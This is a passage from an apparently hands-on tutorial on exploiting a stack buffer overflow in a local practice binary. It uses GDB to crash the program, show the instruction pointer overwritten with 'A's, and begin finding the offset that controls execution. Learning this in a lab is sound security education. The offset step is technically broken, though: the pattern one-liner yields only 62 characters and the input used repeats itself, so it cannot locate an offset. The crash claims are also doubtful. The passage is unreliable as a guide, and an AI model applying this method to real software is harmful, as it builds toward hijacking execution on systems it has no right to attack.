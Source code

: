 #### **Check Stack Memory (`rsp`)**
```gdb
x/20gx $rsp
```
✅ You should see **normal stack values**, including the **return address** just above `rbp`.  

📌 **Continue execution normally:**  
```gdb
continue
```
✅ The program prints `"You entered: hello"` and exits **without crashing**.  

---

# **🛠 Step 6: Run the Overflow in GDB**
Now, **run the program again, but with the overflow input**:
```gdb
run AAAAAAAAAAAAAAAAAAAAA
```
💥 **Boom! Segmentation fault!**  
The program **crashes**, but GDB catches it.  

---

### **1️⃣ Check the Registers (Damage Report!)**
```gdb
info registers
```
🔍 Look at **`rip`**:  
```
rip = 0x4141414141414141
```
🔥 **Our input ("AAAA...") overwrote `rip`!**  
✅ **This confirms we control execution!**  

### **2️⃣ Look at the Stack (Corruption Confirmed!)**
```gdb
x/20gx $rsp
```
👀 You should see **our "AAAAAAA..." input written into the stack**, replacing the old return address.  

---

## **🛠 Step 7: Find the Exact Offset**
Now, let's determine **exactly how many bytes** it takes to overwrite `rip`.  

📌 **Generate a unique pattern:**  
```bash
python3 -c 'import string; print("".join(string.ascii_uppercase[:26] + string.ascii_lowercase[:26] + "0123456789")[:128])'
```
📌 **Run with this input:**  
```bash
./overflow ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789
```
💥 **It crashes again!**  
